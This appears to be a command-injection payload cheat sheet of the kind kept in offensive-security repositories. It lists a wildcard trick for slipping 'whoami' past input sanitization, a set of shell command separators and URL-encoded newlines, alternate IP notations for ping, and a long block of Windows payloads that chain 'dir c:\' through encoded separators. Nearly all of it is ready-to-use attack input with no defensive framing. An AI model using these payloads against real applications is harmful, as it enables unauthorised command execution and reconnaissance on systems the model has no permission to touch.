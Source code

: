 Attempt to bypass sanitization??
-----------------
```
/usr/bin/whoami
/u??/b??/wh?am?
```

Delimiters
------------------
```bash
&
&&
|
||
%0a
;
^
%0D
%0A
\n
<
```
Interesting stuff
-----------------
```
# https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/
# https://github.com/sii/sipcalc
# linux only
ping 0
# Zeros are optional
ping 127.1
```
Windows
----------------------
```
+|+Dir+c:\
$+|+Dir+c:\
%26%26+|+dir c:\
$%26%26dir c:\
%0a+dir+c:\
+|+Dir+c:%255c
$+|+Dir+c:%255c
%26%26+|+dir c:%255c
$%26%26dir+c:%255c
%0a+dir+c:%255c
+|+Dir+c:%2f
$+|+Dir+c:%2f
%26%26+|+dir c:%2f
$%26%26dir+c:%2f
%0a+dir+c:%2f
+dir+c:\+|
+|+dir+c:\+|
+|+dir+c:%2f+|
dir+c:\
||+dir|c:\
```

